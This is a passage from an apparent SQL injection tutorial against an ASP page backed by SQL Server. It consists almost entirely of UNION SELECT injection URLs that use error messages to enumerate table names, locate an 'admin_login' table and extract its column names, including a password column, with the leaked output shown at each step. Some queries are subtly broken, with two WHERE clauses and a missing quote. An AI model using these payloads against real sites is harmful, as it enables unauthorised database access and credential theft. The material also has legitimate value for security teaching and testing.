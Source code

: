 Microsoft OLE DB Provider for ODBC Drivers error ‘80040e07’  
\[Microsoft\]\[ODBC SQL Server Driver\]\[SQL Server\]Syntax error converting the nvarchar value ‘table1’ to a column of data type int.  
/index.asp, line 5

The error message is nice enough to tell us the value that cannot be converted into an integer. In this case, we have obtained the first table name in the database, which is ‘table1’.

To get the next table name, we can use the following query:

http://duck/index.asp?id=10 UNION SELECT TOP 1 TABLE\_NAME FROM INFORMATION\_SCHEMA.TABLES WHERE TABLE\_NAME NOT IN (‘table1’)–

We also can search for data using LIKE keyword:

http://duck/index.asp?id=10 UNION SELECT TOP 1 TABLE\_NAME FROM INFORMATION\_SCHEMA.TABLES WHERE TABLE\_NAME LIKE ‘%25login%25’–

Output:

Microsoft OLE DB Provider for ODBC Drivers error ‘80040e07’  
\[Microsoft\]\[ODBC SQL Server Driver\]\[SQL Server\]Syntax error converting the nvarchar value ‘admin\_login’ to a column of data type int.  
/index.asp, line 5

The matching patent, ‘%25login%25’ will be seen as %login% in SQL Server. In this case, we will get the first table name that matches the criteria, ‘admin\_login’.

**6.1 How to mine all column names of a table?**  
We can use another useful table INFORMATION\_SCHEMA.COLUMNS to map out all columns name of a table:

http://duck/index.asp?id=10 UNION SELECT TOP 1 COLUMN\_NAME FROM INFORMATION\_SCHEMA.COLUMNS WHERE TABLE\_NAME=’admin\_login’–

Output:

Microsoft OLE DB Provider for ODBC Drivers error ‘80040e07’  
\[Microsoft\]\[ODBC SQL Server Driver\]\[SQL Server\]Syntax error converting the nvarchar value ‘login\_id’ to a column of data type int.  
/index.asp, line 5

Now that we have the first column name, we can use NOT IN () to get the next column name:

http://duck/index.asp?id=10 UNION SELECT TOP 1 COLUMN\_NAME FROM INFORMATION\_SCHEMA.COLUMNS WHERE TABLE\_NAME=’admin\_login’ WHERE COLUMN\_NAME NOT IN (‘login\_id’)–

Output:

Microsoft OLE DB Provider for ODBC Drivers error ‘80040e07’  
\[Microsoft\]\[ODBC SQL Server Driver\]\[SQL Server\]Syntax error converting the nvarchar value ‘login\_name’ to a column of data type int.  
/index.asp, line 5

When we continue further, we obtained the rest of the column name, i.e. ‘password’, ‘details’. We know this when we get the following error message:

http://duck/index.asp?id=10 UNION SELECT TOP 1 COLUMN\_NAME FROM INFORMATION\_SCHEMA.COLUMNS WHERE TABLE\_NAME=’admin\_login’ WHERE COLUMN\_NAME NOT IN (‘login\_id’,’login\_name’,’password’,details’)–
